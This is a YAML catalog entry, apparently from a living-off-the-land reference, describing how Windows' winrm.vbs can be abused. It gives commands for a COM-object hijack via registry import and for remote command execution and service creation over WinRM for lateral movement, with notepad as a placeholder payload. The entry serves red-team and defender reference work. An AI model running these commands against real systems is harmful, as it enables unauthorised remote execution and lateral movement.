 ```yaml
---
name: winrm.vbs
description: Interact and manage WMI object instances over Winrm.
functions:
  execute:
    - description: Hijack the Scripting.Dictionary COM Object to execute remote scriptlet (SCT) code.
      code: reg.exe import c:\path\to\Slmgr.reg & winrm quickconfig
    - description: Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol.
      code: winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985
    - description: Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol.
      code: winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985\nwinrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985
resources: 
    - resource: https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf
    - resource: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
    - resource: https://www.youtube.com/watch?v=3gz1QmiMhss
    - resource: https://github.com/enigma0x3/windows-operating-system-archaeology
    - resource: https://redcanary.com/blog/lateral-movement-winrm-wmi/
    - resource: https://twitter.com/bohops/status/994405551751815170
fullpath: 
    - path: c:\windows\system32\winrm.vbs
    - path: c:\windows\sysWOW64\winrm.vbs
notes: Thanks to Matt Graeber - @mattifestation (Execution & Lateral Movement), Matt Nelson - @enigma0x3 (Hijack), Casey Smith - @subtee (Hijack), Red Canary Company cc Tony Lambert - @redcanaryco (Win32_Process LM example), Jimmy - @bohops (Win32_Service LM example)

---
```

